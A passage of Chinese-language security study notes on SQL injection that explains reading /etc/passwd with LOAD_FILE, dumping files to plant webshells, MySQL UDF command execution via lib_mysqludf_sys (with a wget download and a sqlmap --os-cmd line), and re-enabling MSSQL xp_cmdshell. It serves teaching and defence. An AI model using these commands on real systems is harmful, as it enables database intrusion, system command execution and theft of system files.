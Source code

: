    ```sql
   create table potatoes(line BLOB);
   select 1,1,hex(LOAD_FILE('/etc/passwd')),1,1 into DUMPFILE '/tmp/potatoes';
   LOAD DATA INFILE '/tmp/potatoes' into table potatos;
   ```

上面写入文件的技巧，经常被用于导出一个 `webshell`，为攻击者的进一步攻击做铺垫。

因此再设计数据库安全方案时，可以禁止数据库用户具备操作文件的权限。

### 命令执行

除了可以通过导出 `webshell` 间接地执行命令外，还可以利用 “用户自定义函数 UDF” 的技巧来执行命令。大多数数据库一般都支持从本地文件系统中导入一个链接库文件作为自定义函数。

通过以下的语法就可以简历 UDF：

```sql
create function f_name returns integer soname shared_library;
```

安全研究者们发现通过 `lib_mysqludf_sys` 中提供的几个函数（主要是 `sys_eval` 与 `sys_exec()`）就可以执行系统命令。在攻击过程中，将 `lib_mysqludf_sys.so` 上传到数据库能访问的路径下，并且创建了 UDF 之后就可以执行系统命令了。这个链接库主要有以下四个函数：

- `sys_eval()`：执行任意命令，并且将输出返回；
- `sys_exec()`：执行任意命令。并且将退出码返回；
- `sys_get`、`sys_set()`：获取、修改（创建）一个环境变量；

共享链接库可以通过开源信息获得：

```bash
wget --no-check-certificate https://github.com/mysqludf/lib_mysqludf_sys/raw/master/lib_mysqludf_sys.so
```

`sqlmap` 中也集成了这个功能：

```bash
python sqlmap.py -u "http://victim.com.index.php?id=5" --os-cmd id -v 1
```

UDF 不仅仅是 MySQL 的特性，其他数据库也有着类似的功能。利用 UDF 的功能实施攻击的技巧也大同小异。比如：

- 在 MS SQL-Server 中，可以直接使用存储过程 `xp_cmdshell` 执行命令；
- 在 Oracle 数据库中，如果服务器同时还有 Java 环境，那么也可能造成命令执行。

一般来说，在数据库中执行系统命令，要求具有较高的权限。

### 攻击存储过程

存储过程为数据库提供了强大的功能，它与 UDF 很像，但它必须使用 `CALL` 或者 `EXECUTE` 来执行。在注入攻击的过程中，存储过程将为攻击者提供很大的便利。

在微软 SQL-Server 中 `xp_cmdshell` 可谓是臭名昭著了，它在 2000 版本中是默认开启的，但在 2005 以及以后的版本中则被默认禁止了：

```mssql
EXEC master.dbo.xp_cmdshell 'cmd.exe dir C:'
```

但是如果当前数据库用户拥有 `sysadmin` 权限，则可以使用 `sp_configure` （2005 与 2008 版本）或 `sp_addextendedproc`（2000 版本）重新开启它：

```mssql
EXEC sp_configure 'show advanced options',1
RECONFIGURE

EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE
```

